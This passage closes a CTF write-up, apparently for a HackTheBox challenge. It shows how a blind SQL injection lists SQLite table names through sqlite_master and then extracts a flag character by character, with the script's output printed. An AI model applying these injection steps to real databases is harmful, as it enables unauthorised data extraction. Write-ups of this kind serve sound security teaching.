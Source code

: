 Since we know that a table is created for the flag, we can simply bruteforce the sqlite table names. You can find them contained within the `sqlite_master` table with the following SQL query:

```sql
SELECT name FROM sqlite_master WHERE type='table'
```

We can bruteforce the query contents into the `flag_table` variable and then bruteforce that table's contents for the flag:

```python
flag_table = blind_bruteforce('name','sqlite_master','type=\'table\'')
flag = blind_bruteforce('flag', flag_table, None)
```

And once we run our script, we finally get the flag:

```
...
Hit: flag_1a6ade2
Hit: flag_1a6ade27
Hit: flag_1a6ade274
Hit: flag_1a6ade2742
[!] Found field value: flag_1a6ade2742
[*] Starting property bruteforce on flag
...
Hit: CHTB{f4k3_fl4g_f0r_t3s
Hit: CHTB{f4k3_fl4g_f0r_t3st
Hit: CHTB{f4k3_fl4g_f0r_t3st1
Hit: CHTB{f4k3_fl4g_f0r_t3st1n
Hit: CHTB{f4k3_fl4g_f0r_t3st1ng
Hit: CHTB{f4k3_fl4g_f0r_t3st1ng}
[!] Found field value: CHTB{f4k3_fl4g_f0r_t3st1ng}
```

## Credits

The HackTheBox team put up a really fun CTF this year and I hope that it will be even bigger and better next year. I've had the pleasure of participating with a team of 9 really talented individuals and my teammate **baseq** has published a [great writeup](https://gabrielfok.us/articles/2021-04/HackTheBoxCTF) on how he solved some of the crypto challenges from this same CTF. Check it out.